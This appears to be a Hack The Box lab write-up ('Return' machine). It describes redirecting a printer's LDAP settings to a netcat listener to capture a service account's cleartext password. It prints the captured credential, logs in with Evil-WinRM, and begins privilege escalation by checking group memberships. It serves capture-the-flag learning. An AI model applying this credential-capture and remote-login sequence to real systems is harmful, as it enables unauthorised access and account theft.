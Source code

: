 On Settings.php endpoint there is some kind of ldap connection setting is running. There we found a user name. Password of the user was all asterisks which i thought at very first that the input type is password that's why we are seeing this but when i inspect that input filed, the type of the passowrd field is itself text. and all this is trying to connect with **printer.return.local** on port **389**.

<img  alt="Pasted image 20240416002336" src="https://github.com/iammR0OT/HTB/assets/74102381/239ad33f-71b6-4ae6-98ba-3aea5368e7b2">

When i intercept the request thorough burp proxy, only the IP filed was going in the request all the other username, port and password fields was not there.

<img alt="Pasted image 20240416003138" src="https://github.com/iammR0OT/HTB/assets/74102381/4330cc5c-52e0-4bef-aa21-ca580cfae247">

So i run a netcat listener on my machine and change the IP address with my attacker machine IP address on port 389 so that the request got captured on my listener. In response i got username and it's clear text password which was used for authentication in the bind request.

<img alt="Pasted image 20240416003648" src="https://github.com/iammR0OT/HTB/assets/74102381/e25de1b3-9efa-4904-8b09-9f9b1a476942">

```bash
svc-printer : 1edFg43012!!
```

### Shell as svc-printer

As we discovered through Nmap that the WinRM port 5985 is open, we can use a tool called **Evil-WinRM** to log in to the **svc-printer** account.

```bash
$ evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

Our user flag is present on Desktop folder.

<img alt="Pasted image 20240416004258" src="https://github.com/iammR0OT/HTB/assets/74102381/59506577-cf35-4308-b00b-6509f875fd16">

# Privilege Escalation

Firstly, Let's check what  group of member  **svc-printer** user is.

```bash
$ net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
```